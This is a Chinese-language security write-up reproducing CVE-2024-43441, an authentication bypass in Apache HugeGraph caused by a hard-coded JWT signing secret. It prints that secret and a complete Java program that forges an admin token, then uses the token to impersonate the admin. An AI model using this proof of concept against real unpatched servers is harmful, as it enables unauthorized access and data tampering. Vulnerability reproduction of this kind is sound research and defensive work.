







# CVE-2024-43441 Apache HugeGraph 硬编码漏洞 复现一则-先知社区

> **来源**: https://xz.aliyun.com/news/16488  
> **文章ID**: 16488

---

漏洞的通告如下  
  
从漏洞描述和标题标题就可以猜到大概是个什么漏洞了，jwt,Secret,Authentication Bypass，三个关键字大概率就是硬编码的jwt Secret，导致可以伪造Token进行数据操作。

## 环境搭建

`docker run -itd --name=graph -e PASSWORD=123456 -p 8080:8080 hugegraph/hugegraph:1.3.0`  
默认情况下，Apache HugeGraph不启用身份验证，需要手动开启身份验证，参考<https://hugegraph.apache.org/docs/config/config-authentication/> 文档开启身份认证。  
  
访问提示401认证


## 漏洞分析

从Github的公告中(<https://github.com/advisories/GHSA-f697-gm3h-xrf9>) 可以看到相关修复commit地址为  
<https://github.com/apache/incubator-hugegraph/commit/03b40a52446218c83e98cb43020e0593a744a246。>  
  
之前使用的是硬编码的`FXQXbJtbCLxODc6tGci732pkH1cyf8Qg`作为Secret来生成jwt Token,修复后使用了随机生成的Base64字符串。  
再确认一下JWT的生成流程，逻辑在hugegraph-server/hugegraph-core/src/main/java/org/apache/hugegraph/auth/TokenGenerator.java中。  
  
可以看到使用Jwt签名使用的Key就是使用硬编码的secret `FXQXbJtbCLxODc6tGci732pkH1cyf8Qg`通过io.jsonwebtoken.security.Keys.hmacShaKeyFor(secret)生成的。

```
String secretKey = config.get(AuthOptions.AUTH_TOKEN_SECRET);
this.key = Keys.hmacShaKeyFor(secretKey.getBytes(StandardCharsets.UTF_8));

```

```
return Jwts.builder()
                   .setClaims(payload)
                   .setExpiration(new Date(System.currentTimeMillis() + expire))
                   .signWith(this.key, SignatureAlgorithm.HS256)
                   .compact();

```

看一下调用TokenGenerator.create方法的地方,可以在hugegraph-server/hugegraph-core/src/main/java/org/apache/hugegraph/auth/StandardAuthManager.java看到生成JWT时传入payload就是包含用户name和id的一个map，  
  
也就是说只要知道用户的name和id就可以生成该用户的合法jwt，冒充该用户进行操作了。

## 漏洞复现

按照应用的逻辑，生成jwt的代码如下,admin为默认用户名，需要注意的是admin的user\_id是-30。

```
public class Main {
    public static void main(String[] args) {
        String secretKey = "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg";
        SecretKey key = Keys.hmacShaKeyFor(secretKey.getBytes(StandardCharsets.UTF_8));
        Map<String, String> payload = new HashMap<>();
        payload.put("user_name","admin");
        payload.put("user_id","-30");
        String token = Jwts.builder()
                .setClaims(payload)
                .setExpiration(new Date(System.currentTimeMillis() + 36000))
                .signWith(key, SignatureAlgorithm.HS256)
                .compact();

        System.out.println(token);
    }
}

```

需要用到的组件可以从子项目的pom.xml中找到

```
<dependency>
        <groupId>io.jsonwebtoken</groupId>
        <artifactId>jjwt-api</artifactId>
        <version>0.11.5</version>
    </dependency>
    <dependency>
        <groupId>io.jsonwebtoken</groupId>
        <artifactId>jjwt-impl</artifactId>
        <version>0.11.5</version>
        <scope>runtime</scope>
    </dependency>
    <dependency>
        <groupId>io.jsonwebtoken</groupId>
        <artifactId>jjwt-jackson</artifactId>
        <version>0.11.5</version>
        <scope>runtime</scope>
    </dependency>

```

  
最后使用伪造的Token进行冒充admin用户访问。  

